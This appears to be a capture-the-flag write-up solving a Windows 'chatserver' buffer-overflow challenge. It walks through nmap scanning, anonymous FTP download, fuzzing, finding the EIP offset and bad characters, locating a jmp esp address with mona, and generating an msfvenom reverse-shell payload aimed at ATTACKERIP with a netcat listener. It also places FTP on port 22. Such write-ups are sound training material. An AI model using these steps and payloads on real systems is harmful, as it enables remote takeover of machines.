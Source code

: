 # Brainstorm

### Tasks:

1. **Deploy Machine and Scan Network**:
   1. Scan with nmap as usual : `nmap -sC -sV -T5 ip`
2.  **Accessing Files**:

    1. From nmap scan , ftp port open at 22, connect using `ftp ip` and anonymous:anonymous as credentials. `cd chatserver`, `bin`, `mget *` and `quit`. - chatserver.exe and essfunc.dll downloaded.
    2. `nc ip 9999` - some chatserver is running, it might be the chatserver.exe we just downloaded through FTP.


3. **Access**:
   1. Transfer both [exe](https://transfer.sh/PA1HHq/chatserver.exe) and [dll](https://transfer.sh/6tX6aS/essfunc.dll) to windows machine.
   2. Executing exe, it takes 2 input (username and message) , username limits to 20 character, we can safely assume that message is where the bufferoverflow might be.
   3. Start debugging the chatserver with Immunity Debugger.
   4. Each time you are running python script, you will need to restart program in Immunity debugger.
   5. Use [fuzz.py](https://gist.github.com/jayateertha043/e11a338d2a0683ddd49ae01373d655f3) to determine length of buffer when program crashes \~ 2100
   6. Generate cyclic string using [online tool](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) or using metasploit framework pattern\__create.rb and use the cyclic string as buffer in _[_offset\_finder.py_](https://gist.github.com/jayateertha043/0a3651e5d79e0323c174a4ae2d9b9309)_ _and run offset\_finder.py after restarting chatserver in immunity debugger, when the program crashes  note down the value of EIP register and enter the value in the [online tool](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) or pattern\_offset.rb. You will get the resultant exact offset value where the buffer was overflowed - 2012.
   7. Run [bad\_char.py](https://gist.github.com/jayateertha043/51a8e5ff9984e85f80fcfdb36572bea9) , again when program crashes look for missing bad characters if any by following ESP stack dump. If any of them is missing or not in order, try removing them from bad\_char.py and repeat till all the bad characters are in same order as sent. - In this case only bad character was \x00 - null character.
   8. Run `!mona modules` in Immunity debugger to find dll and exe running without any additional security protections such as ASLR and DEP - chatserver.exe and essfunc.dll
   9. Run `!mona find -s "\xff\xe4" -m essfunc.dll` to find address of jmp esp instruction inside essfunc.dll, there will be multiple such address you can pick any of them (make sure there are no bad chars at this address) - 625014DF
   10. Convert the address obtained to little endian format  - "\xdf\x14\x50\x62" and we can use this as value of eip when we later use exploit.py.
   11. Generate msfvenom payload - `msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKERIP LPORT=4444 -b '\x00' -f py` and copy the payload replace it in [exploit.py](https://gist.github.com/jayateertha043/5cb8f71cf3e2067d81cf201973420483).
   12. Start netcat listener - `nc -nlvp 4444`
   13. Run `python exploit.py` to get shell in netcat.
   14. `cd C:\Users\drake\\Desktop` and `type root.txt` to get flag and submit !!!
